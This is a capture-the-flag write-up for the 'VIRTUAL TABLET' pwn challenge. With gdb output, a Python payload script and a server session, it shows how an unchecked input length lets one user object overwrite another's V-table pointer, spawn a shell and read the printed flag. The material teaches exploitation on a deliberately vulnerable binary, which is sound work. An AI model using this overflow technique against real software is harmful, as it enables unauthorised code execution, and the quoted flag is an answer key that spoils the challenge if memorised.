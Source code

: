 ## VIRTUAL TABLET [160]

## Solution
There are two classes: `User` and `Admin`. `Admin` inherits from `User`. We can create several `Users`, which will be contiguous in memory. When "logged in" as a user, we can specify an ICAO code that should be four bytes long. However, this length is not enforced and we are able to overflow into other user objects in memory. This will allow us to overwrite the virtual table (V-Table) pointer of a user to point to an `Admin` class table instead of a `User` class. Then, when we call `::spawn_shell()` on our object, we will call `Admin::spawn_shell()` instead of `User::spawn_shell()` and actually spawn a shell.

This is what the objects look like in memory:
```
ameise@STAHLKERN:~/CS2015/pwn/160_VIRTUAL_TABLET$ gdb ./tablet 
Reading symbols from ./tablet...(no debugging symbols found)...done.
(gdb) break *0x0804937E
Breakpoint 1 at 0x804937e
(gdb) run
Starting program: /home/ameise/CS2015/pwn/160_VIRTUAL_TABLET/tablet 
~~~~~~~~~~~~~~~~~~ iTAB, the FUTURE is THERE ~~~~~~~~~~~~~~~~~
|                      Think Interactive!                    |
--------------------------------------------------------------

guest@iTAB$ login
username: aaaa
aaaa@iTAB$ login
username: bbbb
bbbb@iTAB$ switch
Which user do you want to become?
username: aaaa
aaaa@iTAB$ weather

Please enter your ICAO code: AAAA

Breakpoint 1, 0x0804937e in User::weather() ()
1: x/5i $eip
=> 0x804937e <_ZN4User7weatherEv+370>:	cmp    eax,0x4
   0x8049381 <_ZN4User7weatherEv+373>:	seta   al
   0x8049384 <_ZN4User7weatherEv+376>:	test   al,al
   0x8049386 <_ZN4User7weatherEv+378>:	je     0x80493b3 <_ZN4User7weatherEv+423>
   0x8049388 <_ZN4User7weatherEv+380>:	sub    esp,0x8
(gdb) x/1xw $ebp+0x8
0xffffce60:	0x08053290
(gdb) x/32xw 0x08053290
0x8053290:	0x0804a8b0	0x41414141	0x61616100	0x00000000
0x80532a0:	0x00000000	0x00000000	0x00000000	0x00000021
0x80532b0:	0x0804a8b0	0x00000000	0x62626262	0x00000000
0x80532c0:	0x00000000	0x00000000	0x00000000	0x0001fd39
0x80532d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x80532e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x80532f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8053300:	0x00000000	0x00000000	0x00000000	0x00000000
```

The basic structure is:
```
0-3     V-table pointer      0x0804a8b0
4-7     ICAO code            'AAAA'
8-31    name                 'aaaa' ...
```

We can't overflow the V-table for the current user, but we can overflow into another user to overwrite his V-table pointer and then switch to that user to spawn a shell. These are the basic steps:
```
1) login as (create) user "aaaa"
2) login as (create) user "bbbb"
3) switch to user "aaaa"
4) enter ICAO code for user "aaaa" as "c"*28 + new_vtable_pointer
5) switch to user "bbbb"
6) spawn shell
```

To find out the new V-table pointer:
```
(gdb) info variables User
All variables matching regular expression "User":

Non-debugging symbols:
0x0804a8a8  vtable for User
0x0804a8d8  typeinfo for User
0x0804a8e0  typeinfo name for User
(gdb) info variables Admin
All variables matching regular expression "Admin":

Non-debugging symbols:
0x0804a898  vtable for Admin
0x0804a8b8  typeinfo for Admin
0x0804a8d0  typeinfo name for Admin
```

We can see that `gdb` has identified the V-table functions for `Admin` and `User` as being `0x10` (16) bytes apart. Using this knowledge, we can overwrite the pointer in a user to point to `Admin` functions instead of `User` functions:
```
0x0804a8b0 - 0x10 = 0x0804a8a0
```

Solution:
```Python
payload = ""

def addline(bytes):
  return bytes + '\n'

vtable_address = "\xa0\xa8\x04\x08"

payload += addline("login")
payload += addline("aaaa")
payload += addline("login")
payload += addline("bbbb")
payload += addline("switch")
payload += addline("aaaa")
payload += addline("weather")
payload += addline("P"*28 + vtable_address + "cc")
payload += addline("switch")
payload += addline("bbbb")

fp = open("input","wb")
fp.write(payload)
fp.close()
```

This will get us to the point where a shell can be spawned by typing `spawn`. Running on the server:
```
ameise@shell:/tmp/ameise$ nano tablet_solve.py
ameise@shell:/tmp/ameise$ python tablet_solve.py 
ameise@shell:/tmp/ameise$ cat input -| /home/problems/281ec2c6d34da8aef3b133c8b76eed63/virtual-tablet_8/tablet
~~~~~~~~~~~~~~~~~~ iTAB, the FUTURE is THERE ~~~~~~~~~~~~~~~~~
|                      Think Interactive!                    |
--------------------------------------------------------------

guest@iTAB$ username: aaaa@iTAB$ username: bbbb@iTAB$ Which user do you want to become?
username: aaaa@iTAB$ 
Please enter your ICAO code: BAD ICAO code
PPPPPPPPPPPPPPPPPPPPPPPP��cc@iTAB$ PPPPPPPPPPPPPPPPPPPPPPPP��cc@iTAB$ Which user do you want to become?
username: bbbb@iTAB$ whoami
Name: bbbb (icao: cc) 
bbbb@iTAB$ spawn
pwd
/tmp/ameise
cd /home/problems/281ec2c6d34da8aef3b133c8b76eed63/virtual-tablet_8
ls
flag  tablet
cat flag
1ddcd619F0BBbe4D_all_your_vtables_are_belong_to_us

exit
bbbb@iTAB$ exit
*** Error in `/home/problems/281ec2c6d34da8aef3b133c8b76eed63/virtual-tablet_8/tablet': free(): invalid next size (fast): 0x0804e078 ***
exit
Aborted
```